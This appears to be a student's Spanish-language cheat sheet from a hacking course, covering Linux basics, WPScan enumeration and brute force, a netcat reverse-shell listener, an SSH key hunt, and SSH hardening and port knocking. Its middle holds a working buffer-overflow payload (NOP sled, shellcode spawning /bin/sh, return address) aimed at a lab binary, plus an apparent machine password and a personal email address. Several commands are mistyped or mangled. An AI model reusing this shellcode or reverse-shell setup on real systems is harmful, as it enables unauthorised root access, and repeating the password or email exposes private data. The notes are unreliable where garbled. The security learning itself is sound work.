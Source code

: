 buscar en man on "/keyword", ir adelante on N y hacia atras con SUPR-N
chown cambia proprietario de un fichero

## VIM
:wq write qui
:q! quit and force

## XARGAS
ejecuta algo como argumento final un output

## ALIAS
alias loqueyoquiera="ls"    cerrando la sessión pierdes el alias
para hacerlo fijo meter en /.bashrc el alias


## WPscan
utilzado para sacar información sobre los usuarios que se utilizan en la pagina basada en wordpress
también se usa como brute-force para paginas web basadas en wordpress

## Google dorking
buscador más profundo de información
site: sitio "keywoards"

## Netcad
Utilizado para abrir puertos en la maquina a utilizar como reverse shell
netcad -nvlp "puerto puesto" https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


## SSH
es posible utilizar la llave RSA para poder entrar con ssh utilizando el flag -i

buscar en un directorio llaves RSA existentes y utilizables:
find. -type f- -exec sh -c 'echo "Analizando archivo: $1"; ssh-keygen -l -f $1' _ {} \;


contraseña maquina wido T4ll3r_H4ck1nG_2024!
correo para el premio: sermomo3@alumni.uv.es

run $(python2 -c 'print "A"*88')


run $(python2 -c 'print "\x90"*35+"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x64\xf4\xff\xbf"')


/home/wido/pruebas_seguridad/script $(python2 -c 'print "\x90"*35+"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x64\xf4\xff\xbf"')


## HARDENING
Asegurar servidores y servicios.

FIREWALL
iptables -L -nv (muestra las reglas)
preservar logs de las posibles conexiones
LAMP(Linux Apache MySQL PHP) para servidor web
VESTA
Nestia es un gestor instalable open source para gestionar el servidor

Security SSH
Cambio de puerto sobre el 1000
Bloquear acceso de root utilizando SSH (permitrootlogin no)
Autenticazión de password (password authentication)
Archivo de config de ssh /etc/ssh/sshd_config

PORT KNOCKING
Configuras firewalls que te permite conectar a diferentes puertos para luego conseguir abilitar la regla de abertura de SSH. En pocas palabras, tocas ciertos puertos configurados en el dispositivo y así puedes abrir y cerrar puertos.
knockd es el servicio utilizable(/etc/knockd.conf y /etc/default/knockd)
START_KNCOKD =1 para abilitar el knocking
KNOCKD_OPTS="-i eth0" para cambiar la interfaz a utilizar y luego abilitar con systemctl start knockd
knock -d 300 10.5.0.10(IP) 2024 2000 9898 para nockear y luego hacer ssh
y para cerrar knock -d 300 %IP% 9898 2000 2024

OSSEC(HIDS)